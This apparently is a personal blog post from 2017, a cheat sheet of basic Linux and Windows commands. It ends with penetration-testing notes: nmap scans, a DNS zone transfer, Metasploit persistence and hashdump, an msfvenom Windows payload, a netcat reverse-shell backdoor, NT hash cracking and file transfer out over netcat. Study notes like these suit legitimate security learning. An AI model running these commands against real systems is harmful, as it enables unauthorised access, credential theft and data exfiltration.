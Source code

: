 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
<h2> Get Help … and other info</h2>
<ul>
<strong>
	<li><code>C:\> <command> /? </code></li>
	<li><code>root@kl~# <command> -h </code></li>
	<li><code>root@kl~# <command> --help </code></li>
	<li><code>root@kl~# man <command> </code></li>
	<li><code>root@kl~# apropos </code></li>
	<li><code>root@kl~# history </code></li>
	<li><code>root@kl~# hostname</code></li>
	<li><code>root@kl~# sudo </code></li>
	<li><code>root@kl~# whoami </code></li>
</strong>
		<ul>
		<li>(print current user id and name)</li>	
		</ul>
<strong>
	<li><code>root@kl~# date </code></li> 
	<li><code>C:\>  chdir </code></li>
</strong>
		<ul>
		<li>(displays location)</li>
		</ul>
<strong>
	<li><code>root@kl~# pwd </code></li>
</strong>
		<ul>
		<li>(displays location)</li>
		</ul>
</ul>

<h2>Processes and Things</h2>
<ul>
<strong>
	<li><code>root@kl~# jobs </code></li>
</strong>
		<ul>
		<li>(list cronjobs)</li>
		</ul>
<strong>
	<li><code>root@kl~# kill </code></li>
</strong>
		<ul>
		<li>(stop processes)</li>
		</ul>
<strong>
	<li><code>root@kl~# pkill </code></li>
</strong>
		<ul>
		<li>(stop processes)</li>
		</ul>
<strong>	
	<li><code> root@kl~# ps –aef </code></li>
</strong>
		<ul>
			<li>(list processes status)</li>
		</ul>
<strong>
	<li><code>C:\ tasklist </code></li>
<strong>
</ul>

<h2>Files</h2>
<ul>
	<li><code>root@kl~# cp <src> <dst> </code></li>
	<ul>		
		<li>(copy)</li>
	</ul>
	<li><code>C:\> copy <src> <dst> </code></li>
	<li><code>root@kl~# clear </code></li>
	<li><code>C:\> cls </code></li>
	<li><code>C:\> dir </code></li>
	<li><code>root@kl~# echo <message> </code></li>
		<ul>
			<li>(print to screen)</li>
		</ul>		
	<li><code>root@kl~# find –iname <file> </code></li>
	<li><code>C:\> findstr /i /s <string> *.txt </code></li>
		<ul>
			<li>(like grep for Windows)</li>
		</ul>
	<li><code>root@kl~# file </code></li>
		<ul>
			<li>(determine file type)</li>
		</ul>
	<li><code>C:\> dir \ <file> /b /s </code></li>
	<li><code>root@kl~# grep </code></li>
		<ul>
			<li>(search files for matching text)</li>
		</ul>
	<li><code>root@kl~# gzip </code></li>
		<ul>
			<li>(compress or decompress files)</li>
		</ul>
	<li><code>root@kl~# less </code></li>
		<ul>
			<li>(display output one screen at a time)</li>
		</ul>	
	<li><code>root@kl~# locate </code></li>
	<li><code>root@kl~# ls </code></li>
	<li><code>root@kl~# mkdir </code></li>
		<ul>
			<li>(new directory)</li>
		</ul>	
	<li><code>root@kl~# mv <src><dst> </code></li>
		<ul>
			<li>(move/rename a file)</li>
		</ul>
	<li><code>C:\>  move <src> <dst> </code></li>
	<li><code>root@kl~# rm </code></li> 
		<ul>
			<li>(remove files)</li>
		</ul>	
	<li><code>C:\> ren </code></li>
		<ul>
			<li>(renames file)</li>
		</ul>		
	<li><code>root@kl~# umask </code></li>
		<ul>
			<li>(users file creation mask)</li>
		</ul>	
	<li><code>root@kl~# uniq </code></li>
		<ul>
			<li>(uniquify files)</li>
		</ul>	
	<li><code>root@kl~# vi/vim </code></li>
		<ul>
			<li>(the best text editor)</li>
		</ul>	
	<li><code>root@kl~# wc </code></li>
		<ul>
			<li>(print byte, word and line counts)</li>
		</ul>	
	<li><code>root@kl~# whereis </code></li>
		<ul>
			<li>(search $path, man pages and source files for program)</li>
		</ul>	


<h2>Users</h2>
root@kl~# chgrp 
(change group ownership)	
root@kl~# chmod 
(change access permissions) 
root@kl~# chown 
(change file owner and group)
root@kl~# groupadd 
(add a user to a security group)
root@kl~# passwd 
(modify user password)
root@kl~# useradd 
(create new users)
root@kl~# usermod 
(modify user account)
root@kl~# users 
(list logged in users)
Networks
root@kl~# curl (grab webpages)
root@kl~# dig (DNS lookup)
root@kl~# ifconfig
root@kl~# netstat -ano/-plant/-uplant
(networking connections)
root@kl~# nslookup
 (query name servers)
root@kl~# ping
root@kl~# ssh
root@kl~# traceroute
root@kl~# wget 
(get web pages or files)
 
 
Reconnaissance
Discover target’s IP/FQDN domain
nslookup <domain>
nslookup <ip>
Find nameserver for known domain
	root@kl~# dig <domain>
perform a zone transfer to list hosts w/in domain
	root@kl~# dig axfr @<name server> <domain>
determine route to a host
	root@kl~# traceroute <ip>
	C:\> tracert <ip
scan for services and operating system
	root@kl~# nmap –sV –O <ip> 
scan for vulns
	root@kl~# nmap --script=vulns <ip>
Gain and Maintain
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>
